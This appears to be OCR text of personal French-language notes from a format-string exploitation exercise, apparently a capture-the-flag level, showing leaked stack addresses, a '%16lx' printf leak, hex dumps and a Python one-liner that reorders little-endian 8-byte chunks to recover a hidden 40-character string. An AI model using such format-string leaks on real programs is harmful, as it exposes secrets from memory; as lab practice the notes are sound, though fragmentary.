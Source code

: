 s1 = 7fffffffe4f0 car printf %16lx

? 7fffffffe6e8


7ff9a0831257
7fffffffe6e8

f9a086c3825786c3 825786c3825786c3 825786c3825786c3 825786c3825786c3 825786c3825786c3 82578786c382578

\x00\x00\x00\x01\xf7\xff\x9a\x08\x31\x25\x78\x6c\x36\x31\x25\x78\x78\x6c\x36\x31\x25\x78\x6c\x36


1000000000
3437684861733951574e67586e475873664b394d0




premier essaie:
1000000000756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d

\x75\x6e\x50\x52\x34\x37\x68\x48\x45\x41\x4a\x35\x61\x73\x39\x51\x37\x7a\x71\x43\x57\x4e\x67\x58\x35\x4a\x35\x68\x6e\x47\x58\x73\x48\x33\x67\x50\x66\x4b\x39\x4d
M9KfPg3HsXGnh5J5XgNWCqz7Q9sa5JAEHh74RPnu

dois retourner chaque groupe de 8 octets individuelement (car x64)

\x75\x6e\x50\x52\x34\x37\x68\x48 \x45\x41\x4a\x35\x61\x73\x39\x51 \x37\x7a\x71\x43\x57\x4e\x67\x58 \x35\x4a\x35\x68\x6e\x47\x58\x73 \x48\x33\x67\x50\x66\x4b\x39\x4d
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
